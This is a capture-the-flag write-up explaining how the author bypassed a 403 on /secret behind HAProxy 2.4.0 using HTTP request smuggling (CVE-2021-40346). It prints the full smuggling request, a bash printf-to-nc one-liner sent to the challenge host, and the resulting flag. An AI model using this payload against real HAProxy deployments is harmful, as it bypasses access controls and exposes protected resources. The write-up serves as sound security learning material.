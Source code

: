 🚩 Second Challenge

### Question

![1.png](./assets/1.png)
> Link: http://34.227.78.164/

### Solution
- This is how the webpage looks like
- ![2.png](./assets/2.png)
- From that we know that the flag is in `/secret` which is a directory on the webpage
- Trying to access it gives us **403 Forbidden** error
- ![3.png](./assets/3.png)
- So we now know we need to find a way to bypass that restrictions on `/secret`
- While playing around on that website with burp I found a header value which is all what we needed!
-  ![4.png](./assets/4.png)
-  `x-server: HaProxy-2.4.0`!!
-  With some searching you will immediately find this server is vulnerable ([CVE-2021-40346](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/)) - **HAProxy HTTP Smuggling** using **Integer Overflow**
-  That page explain how to exploit it and why it works
-  There is also this [repo](https://github.com/knqyf263/CVE-2021-40346) doing a PoC
-  The fun thing here is that I found a writeup for this challenge (99% same) by Zeyu's also the author of the chall was the same here, the talented **Ahmed Kahla** 😀 [LINK](https://ctf.zeyu2001.com/2022/securinets-ctf-finals-2022/struggle)
-  This challenge took me 2 days to solve! which was sad because I actually found all this from the first day but I was solving it with burp but seems like it can't be solved with burp (maybe there are some settings needs to be changed) I even contacted the author and he said try another tool and I tried bash as the writeup used and it worked!! later on a hint released and it was `Smuggling with Bash is better :D` because some-many users had the same issue with burp
-  Anyways! 
-  The exploit is pretty simple, you just need to take the payload from the references above and change content-length based on your POST body payload length
```css
POST / HTTP/1.1
Host: 34.227.78.164
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 28

GET /secret HTTP/1.1
DUMMY: GET /test HTTP/1.1
Host: 34.227.78.164
```
The payload sent to Bash was
```bash
(printf "POST / HTTP/1.1\\r\\n"\
"Host: 34.227.78.164\\r\\n"\
"Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:\\r\\n"\
"Content-Length: 28\\r\\n\\r\\n"; sleep 1;
printf "GET /secret HTTP/1.1\\r\\n"\
"DUMMY:"; sleep 1; printf "GET /test HTTP/1.1\\r\\n"\
"Host: 34.227.78.164\\r\\n\\r\\n") | nc 34.227.78.164   80
```

- The actual content-length is the selected text as shown below, the first smuggled HTTP request which will make the original HTTP request go to it. My selected payload was 28 chars long
- ![5.png](./assets/5.png "5.png")
- Send it to bash and VOILAAAA!!!
- ![6.png](./assets/6.png)
> Flag: `FLAG{ACL_Bypass_WiTh_SmuGGlinG_For_B0rUt0}`